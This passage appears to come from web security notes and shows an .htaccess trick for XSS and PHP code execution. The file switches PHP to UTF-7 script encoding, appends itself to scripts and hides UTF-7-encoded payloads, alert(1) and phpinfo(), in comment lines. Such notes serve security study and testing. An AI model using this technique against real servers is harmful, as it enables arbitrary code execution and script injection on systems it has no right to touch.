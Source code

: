 ![image-20200912102329350](assets/image-20200912102329350.png)

此项无效





#### XSS and PHP code execution with UTF-7

index.php: (empty)

.htaccess:

```
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
#+ADw-script+AD4-alert(1)+ADsAPA-/script+AD4 #+ADw?php phpinfo()+ADs
```



![image-20200912102552476](assets/image-20200912102552476.png)
